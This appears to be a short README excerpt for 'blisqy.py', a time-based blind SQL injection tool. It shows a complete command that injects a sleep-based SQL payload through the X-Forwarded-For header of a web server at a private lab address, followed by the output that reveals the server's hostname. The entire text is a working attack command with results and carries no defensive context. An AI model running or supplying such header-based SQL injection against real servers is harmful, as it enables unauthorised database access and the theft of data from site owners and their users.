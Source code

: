 ## Custom Payload:

### Command

```bash
./blisqy.py --server 192.168.56.101 --port 80 --header "X-Forwarded-For" --hvalue "hacker" --sleeptime 0.1  --inject "' or if((*sql*),sleep(*time*),0) and '1'='1" --payload "select @@hostname" 
```

### Out-put

```bash
Extracting Data from ====> 192.168.56.101 : 80 
Current Payload : select @@hostname
==================================================================
debian
```
